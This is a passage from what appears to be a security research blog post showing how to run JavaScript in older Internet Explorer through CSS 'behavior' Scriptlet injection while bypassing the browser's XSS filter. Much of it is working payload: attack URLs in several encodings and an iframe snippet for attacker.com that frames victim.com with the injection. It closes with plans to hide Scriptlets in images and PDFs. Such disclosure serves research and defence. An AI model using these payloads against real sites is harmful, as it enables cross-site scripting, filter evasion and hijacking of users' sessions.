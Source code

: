 Now, all we have to do is use the following URL to pop a nice and clean alert and get JavaScript execution via CSS while at the same time bypassing the MSIE XSS filter even twice, once with the Scriptlet and then with the CSS injection. Mission accomplished.

```
Simple, isolated attack URL:
injectable.php?xss=<b style="behavior%26colon;url('injectable-json.php?xss=stuff%2520here%2520bla%2520%253Cscriptlet%253E%253Cimplements%2520type%253D%2522behavior%2522%2520/%253E%253Cimplements%2520type%253D%2522automation%2522%253E%253Cpublic%253Aproperty%2520name%253D%2522class%2522%2520put%253D%2522eval%2522%2520/%253E%253C/implements%253E%253C/scriptlet%253E')" class="alert%26lpar;1%26rpar;">
```

Ah, wait, we still have to Iframe the injected page from *attacker.com* by using this specific bit of code:

```html
<meta http-equiv="X-UA-Compatible" content="ie=10">
<iframe src="http://victim.com/injectable.php?xss=%3Cb%20style%3D%22behavior%2526colon%3Burl%28%27injectable-json.php%3Fxss%3Dstuff%252520here%252520bla%252520%25253Cscriptlet%25253E%25253Cimplements%252520type%25253D%252522behavior%252522%252520/%25253E%25253Cimplements%252520type%25253D%252522automation%252522%25253E%25253Cpublic%25253Aproperty%252520name%25253D%252522class%252522%252520put%25253D%252522eval%252522%252520/%25253E%25253C/implements%25253E%25253C/scriptlet%25253E%27%29%22%20class%3D%22alert%2526lpar%3B1%2526rpar%3B%22%3E"></iframe>
```

Looks complicated! Less encoding please!

```
injectable.php?xss=<b style="behavior&colon;url('injectable-json.php?xss=stuff%20here%20bla%20%3Cscriptlet%3E%3Cimplements%20type%3D%22behavior%22%20/%3E%3Cimplements%20type%3D%22automation%22%3E%3Cpublic%3Aproperty%20name%3D%22class%22%20put%3D%22eval%22%20/%3E%3C/implements%3E%3C/scriptlet%3E')" class="alert&lpar;1&rpar;">
```

Notice the following snippet? `stuff%2520here`? Yep, Scriptlet parsers, as mentioned earlier in this article, are more flexible than others. We can indeed prefix the Scriptlet XML with a lot of data and the parser will not care - making our injection even more likely to succeed if we inject into an exiting resource, like a CSS file, JSON file or alike. 

Sadly, we so far enumerated the following limitations for text pre-pending the actual Scriptlet code:

 * We cannot use nullbytes (Future work: Create a nullbyte-less yet valid image)
 * We cannot use ampersand (`&`) because XML
 * We cannot use lesser-than (`<`) because XML - but using greater-than is cool (`>`)
 
In summary, we **can** use Scriptlets in many scenarios already, such as JSONP, dynamic CSS, dynamic JavaScript, uploaded TXT files and alike. But we want to extend the attack surface even more of course. So, currently we are working on finding out, how we can make the attack be even more flexible by attempting to find ways to hide the Scriptlet in legitimate images, videos, PDFs and other document formats. We'll keep you posted about the findings, and are eager to hear your feedback :) 

### Demo

Click here to see the whole thing in action, use MSIE11 or older to pop the alert:
